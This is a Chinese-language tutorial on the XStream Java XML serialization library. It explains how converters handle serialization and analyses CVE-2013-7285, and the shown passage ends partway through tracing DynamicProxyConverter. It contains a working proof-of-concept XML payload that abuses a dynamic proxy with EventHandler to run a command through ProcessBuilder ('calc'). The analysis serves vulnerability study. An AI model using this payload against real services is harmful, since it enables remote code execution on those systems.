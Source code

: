 # 0x01 What Is XStream

XStream是Java的一个XML序列化组件，能够将JAVA对象和XML文档相互转换。

```xml
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.10</version>
</dependency>
```

```java
// Person.java
package org.example;

import java.io.IOException;
import java.io.Serializable;

public class Person implements Serializable {
    public String name;
    public Company company;

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public Company getCompany() {
        return company;
    }

    public void setCompany(Company company) {
        this.company = company;
    }

    public Person(String name, Company company) {
        this.name = name;
        this.company = company;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("Person");
    }

}
```

```java
// Company.java
package org.example;

import java.io.IOException;
import java.io.Serializable;

public class Company implements Serializable {
    public String addr;
    public String comName;

    public String getAddr() {
        return addr;
    }

    public void setAddr(String addr) {
        this.addr = addr;
    }

    public String getComName() {
        return comName;
    }

    public void setComName(String comName) {
        this.comName = comName;
    }

    public Company(String addr, String comName) {
        this.addr = addr;
        this.comName = comName;
    }

    private void readObject(java.io.ObjectInputStream s) throws IOException, ClassNotFoundException {
        s.defaultReadObject();
        System.out.println("Company");
    }

}
```

```java
package org.example;

import com.thoughtworks.xstream.XStream;

public class Test {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        Person person = new Person("taco", new Company("LA", "test"));
        String xml = xStream.toXML(person);
        System.out.println(xml);
    }
}
```

```xml
<org.example.Person serialization="custom">
  <org.example.Person>
    <default>
      <company serialization="custom">
        <org.example.Company>
          <default>
            <addr>LA</addr>
            <comName>test</comName>
          </default>
        </org.example.Company>
      </company>
      <name>taco</name>
    </default>
  </org.example.Person>
</org.example.Person>
```

若类不实现`Serializable`接口，转化结果如下：

```xml
<org.example.Person>
  <name>taco</name>
  <company>
    <addr>LA</addr>
    <comName>test</comName>
  </company>
</org.example.Person>
```

`TreeMarshaller#convertAnother`根据

```java
public void convertAnother(Object item, Converter converter) {
    if (converter == null) {
        converter = converterLookup.lookupConverterForType(item.getClass());
    } //...
    convert(item, converter);
}
```

首先根据待转换对象的类来获取`converter`，XStream使用不同的`converter`来处理序列化数据中不同类型的数据。

![image-20230328150844375](../.gitbook/assets/image-20230328150844375.png)

先从缓存`converter`中查找，接着遍历XStream中注册的`converter`，判断`canConvert`寻找对应类型的转换器，若找到则放入缓存`typeToConverterMap`中

对于实现`Serializable`接口的类，返回`SerializableConverter`；普通类返回`ReflectionConverter`

![image-20230328150614655](../.gitbook/assets/image-20230328150614655.png)

XStream初始化会设置类别名，可直接使用别名作为标签

`xStream.fromXML(xml);`用于将XML转化为对象，就是反序列化的过程

可以发现调用了我们重写的`readObject`方法，那么漏洞就油然而生了。

# 0x02 CVE Analy

## CVE 2013-7285

1.3.1<XStream<1.4 

1.4.5<=XStream<=1.4.6

XStream=1.4.10

```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy> <!-- Proxy 动态代理，handler使用EventHandler -->
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>calc</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

在反序列化解析xml的过程中对绑定EventHandler的动态代理对象调用其绑定接口的方法从而触发到EventHandler的invoke方法，最终触发了命令执行

`TreeUnmarshaller#start`开始反序列化

![image-20230328150326448](../.gitbook/assets/image-20230328150326448.png)

`HierarchicalStreams#readClassType`获取当前节点并返回其对应的类，即`java.util.SortedSet`

`lookup`转换器时找到`TreeSetConverter`，跟进`convert` => `converter.unmarshal`

`treeMapConverter.populateTreeMap`

![image-20230328152419228](../.gitbook/assets/image-20230328152419228.png)

接着调用`populateMap`，实际上接下来就是开始循环遍历子标签并将其转化为对应的类

接下来解析`dynamic-proxy`

跟到`DynamicProxyConverter#unmarshal`

```java
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    List interfaces = new ArrayList();
    InvocationHandler handler = null;
    Class handlerType = null;
    while (reader.hasMoreChildren()) {
        reader.moveDown();
        String elementName = reader.getNodeName();
        if (elementName.equals("interface")) {
            interfaces.add(mapper.realClass(reader.getValue()));
        } else if (elementName.equals("handler")) {
            String attributeName = mapper.aliasForSystemAttribute("class");
            if (attributeName != null) {
                handlerType = mapper.realClass(reader.getAttribute(attributeName));
                break;
            }
        }
        reader.moveUp();
    }
    if (handlerType == null) {
        throw new ConversionException("No InvocationHandler specified for dynamic proxy");
    }
    Class[] interfacesAsArray = new Class[interfaces.size()];
    interfaces.toArray(interfacesAsArray);
    Object proxy = null;
    if (HANDLER != null) { // we will not be able to resolve references to the proxy
        proxy = Proxy.newProxyInstance(classLoaderReference.getReference(), interfacesAsArray, DUMMY);
    }
    handler = (InvocationHandler) context.convertAnother(proxy, handlerType);
    reader.moveUp();
    if (HANDLER != null) {
        Fields.write(HANDLER, proxy, handler);
    } else {
        proxy = Proxy.newProxyInstance(classLoaderReference.getReference(), interfacesAsArray, handler);
    }
    return proxy;
}
```

解析子标签的`interface`和`handler`，构建动态代理对象


